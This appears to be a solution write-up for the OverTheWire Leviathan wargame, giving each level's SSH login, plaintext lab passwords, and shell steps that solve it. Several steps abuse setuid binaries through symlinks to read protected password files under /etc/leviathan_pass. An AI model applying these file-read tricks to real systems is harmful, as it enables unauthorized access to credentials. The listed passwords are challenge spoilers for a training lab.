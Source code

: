 # Leviathan

`ssh leviathan.labs.overthewire.org -p 2223`

## Level 0

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0`

password: `leviathan0`

**Solution:**

    ls -la
    cat .backup/bookmarks.html | grep password

## Level 1

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan1`

password: `rioGegei8m`

**Solution:**

    ls -la
    file ./check
    ltrace ./check
    ./check
    cat /etc/leviathan_pass/leviathan2

## Level 2

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan2`

password: `ougahZi8Ta`

**Solution:**

    ls -la
    ./printfile
    ltrace ./printfile .profile
    mkdir -p /tmp/wsx2
    cd /tmp/wsx2
    touch file\ solution.txt
    ln -s /etc/leviathan_pass/leviathan3 /tmp/wsx2/file
    ~/printfile file\ solution.txt

## Level 3

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan3`

password: `Ahdiemoo1j`

**Solution:**

    ls -la
    file ./level3
    ltrace ./level3
    ./level3
    cat /etc/leviathan_pass/leviathan4

## Level 4

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan4`

password: `vuH0coox6m`

**Solution:**

    ls -la
    cd .trash
    ./bin
    CONVERT THE OUTPUT BINARY TO TEXT

## Level 5

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan5`

password: `Tith4cokei`

**Solution:**

    ls -la
    ./leviathan5
    touch /tmp/file.log
    ltrace ./leviathan5
    echo 'wsx' > /tmp/file.log
    ./leviathan5
    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    ./leviathan5

## Level 6

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan6`

password: `UgaoFee4li`

**Solution:**

    ls -la
    file ./leviathan6
    ltrace ./leviathan6
    ltrace ./leviathan6 1234
    mkdir -p /tmp/wsx6
    cd /tmp/wsx6
    vim exploit.sh
    chmod 700 exploit.sh
    ./exploit.sh
    cat /etc/leviathan_pass/leviathan7

THE SCRIPT CREATED CAN BE FOUND [HERE](./exploit.sh).

## Level 7

**Credentials:**

`ssh leviathan.labs.overthewire.org -p 2223 -l leviathan7`

password: `ahy7MaeBo9`
